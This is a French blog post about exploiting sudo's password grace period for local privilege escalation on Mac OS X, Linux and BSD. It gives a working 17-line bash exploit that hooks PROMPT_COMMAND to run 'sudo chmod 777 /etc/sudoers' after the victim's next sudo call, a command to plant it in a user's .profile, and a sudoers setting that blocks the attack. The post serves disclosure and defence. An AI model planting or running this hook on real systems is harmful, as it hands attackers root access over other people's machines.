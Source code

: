 ```yaml
---
title: "Exploiter la grace period de sudo sur Mac OS X, Linux, BSD..."
tags: [vulnérabilité]
---
```


NB: Ceci est une republication de mon article original du mois d'avril 2012 posté sur *myopera*.  

L'exploit a très légèrement été amélioré.  

Présentation rapide de sudo
---------------------------

Les utilisateurs de systèmes dérivés d'Unix connaissent bien la commande `sudo` qui permet via le fichier de configuration `/etc/sudoers` d'autoriser des utilisateurs à exécuter des commandes prédéfinies sous les droits d'un autre utilisateur, et ce, sans avoir par exemple à saisir de mot de passe. Pratique quand on veut par exemple autoriser un utilisateur lambda à effectuer une mise à jour de l'antivirus installé sans que l'on ait à lui divulguer le mot de passe root.  

Une autre particularité de `sudo` que l'on remarque rapidement en l'utilisant, c'est la fonctionnalité dite de *"grace period"*.  

La *"grace period"*, c'est le laps du temps pendant lequel vous pouvez retaper des commandes privilégiées avec `sudo` sans avoir à ressaisir le mot de passe (vous le renseignez seulement lors du premier appel à `sudo`).  

Il m'est tout de suite apparu que ce délai devait être exploitable et permettrait une escalade de privilèges, même si je ne savais pas trop dans quelle direction me tourner pour la mise en pratique (injection via `ptrace`, commandes spécifiques bash... ?)  

Un vieil exploit
----------------

J'ai cependant découvert dans mes recherches que cette *"faille"* n'a rien de nouveau : déjà [en avril 2005](http://www.pcmag.com/article2/0,2817,1784705,00.asp) (c'est-à-dire il y a 7 ans), un [advisory](http://web.archive.org/web/20050407211158/http://www.adbas.net/OSX_Vuln.txt) existait pour cette faiblesse avec une proposition pour empêcher l'exploitation.  

[Un exploit spécifique à Mac OS X 10.3 (Panther)](http://web.archive.org/web/20050410225158/http://www.adbas.net/software/rooted.dmg) (merci archive.org) était même disponible.  

L'exploit de l'époque se basait sur différents points :  

* Les appels à sudo sont enregistrés dans le fichier `/var/log/system.log` lisible par tous
* La *grace period* est de 5 minutes
* `sudo` peut être lancé sans être lié à un tty

Il suffisait à l'exploit de surveiller le fichier de log et de lancer une commande privilégiée à la suite de celle de l'utilisateur.  

Si le second point est uniquement une question de configuration, le premier est lui très fâcheux et le troisième me semble carrément inacceptable (il me semble que sous Linux, `su` et `sudo` vous insultent poliment s'ils ne sont pas lancés depuis un tty).  

Je n'ai pas testé ce vieil exploit sous *OS X Lion*, j'ai au moins constaté que les deux premiers points sont toujours vrais et je ne serais pas surpris que le troisième le soit aussi. 

Un nouvel exploit bash-powered
------------------------------

J'ai plutôt décidé d'écrire moi-même un exploit qui fonctionne même si les points 1 et 3 sont corrigés et qui fonctionnerait aussi bien sur *Mac OS X* que sous *Linux* et *BSD*.  

Le principe est simple : il faut que des commandes soient lancées directement dans le terminal de l'utilisateur (et non pas à côté comme dans l'ancien exploit) juste après qu'il ait appelé `sudo`.  

L'environnement bash conserve un historique des commandes tapées qui est lisible depuis la session bash via la commande `history`. On peut donc savoir très facilement si la précédente commande tapée est `sudo`.  

Deuxièmement, bash dispose d'une variable d'environnement nommée [PROMPT_COMMAND](http://tldp.org/HOWTO/Bash-Prompt-HOWTO/x264.html) qui permet d'exécuter une commande à chaque fois que le prompt (`PS1`) va être affiché dans la console, donc grosso modo entre chaque commande tapée :)  

Cette variable d'environnement peut aussi bien contenir une commande que le nom d'une fonction bash.  

À ce niveau, vous devriez déjà avoir compris le principe de l'attaque. Il ne reste plus qu'à ajouter quelques vérifications comme une bonne commande `grep` ainsi que la valeur de retour d'une commande `sudo` (citée dans la page de manuel) :  

> Upon successful execution of a program, the exit status from sudo will simply be the exit status of the program that was executed.
> Otherwise, sudo exits with a value of 1 if there is a configuration/permission problem or if sudo cannot execute the given command.

Le code final est le suivant (`sudo_grace_period_exploit.sh`) :  

```bash
function bash_history {
  if [ $? -ne 1 ] # la précédente commande a réussie
  then
    if [ -z "${PWNED+xxx}" ] # pas encore pwné
    then
      history 1 | grep -q -E '^[[:space:]]*[0-9]+  sudo '
      if [ $? -eq 0 ] # la précédente commande contient sudo
      then
        sudo chmod 777 /etc/sudoers 2> /dev/null
        PWNED="yes"
        unset PROMPT_COMMAND 2> /dev/null
      fi
    fi
  fi
}

PROMPT_COMMAND=bash_history
```

Il n'y a alors plus qu'à placer ces commandes dans le `.profile` ou le `.bashrc` d'une personne utilisant `sudo` :  

```bash
cat sudo_grace_period_exploit.sh >> .profile
```

Et patienter le temps que notre commande soit exécutée. Un petit hack de 17 lignes pour dompter un Lion, un pingouin ou un démon :)  

Le seul moyen efficace de se protéger de cette attaque est de désactiver la *grace period* en utilisant la ligne de configuration suivante pour `/etc/sudoers` :

```
Defaults:ALL timestamp_timeout=0
```


*Published April 27 2014 at 13:27*
